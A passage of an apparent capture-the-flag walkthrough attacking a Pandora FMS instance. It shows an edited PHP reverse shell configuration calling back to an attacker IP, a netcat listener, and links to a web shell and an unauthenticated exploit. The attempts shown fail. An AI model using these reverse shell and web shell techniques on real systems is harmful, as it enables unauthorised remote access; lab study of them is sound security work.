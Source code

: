 # Reverse Shell  

Next up I found an exploit for authenticated reverse shell.  
Only thing we need is credentials but luckily we can chnage admin's password on his profile.  

[![Capture.png](https://i.postimg.cc/Xv86k8Sz/Capture.png)](https://postimg.cc/bGs5z1vx)

This sript wants us to supply credentials and reverse shell script.  
I am going to use pentesmonkey's php reverse shell which you can get from here: 
> https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

and we need to modify the php revere shell like so:  

```bash

...[SNIP]...

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.2';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0; 
$debug = 0;

...[SNIP]...

```

Start a listener on specified port.  

```bash
┌──(herc㉿kali)-[~]
└─$ nc -nvlp 4444
listening on [any] 4444 ...
```

AAAAAHHHH... it didn't work................  
Okay so from what I gathered we can upload files and execute a reverse shell so  
if this exploit is not working I am going to try manually with uploading a web shell to  
`Tools > File repository` and see if it is working.
You can get the web-shell from here:  
> https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985#file-easy-simple-php-webshell-php

And still  doesn't work...
Okay more searching and testing.  

Eventually I find another exploit that does pretty much everything we needed so let's give it a try:  
> https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated
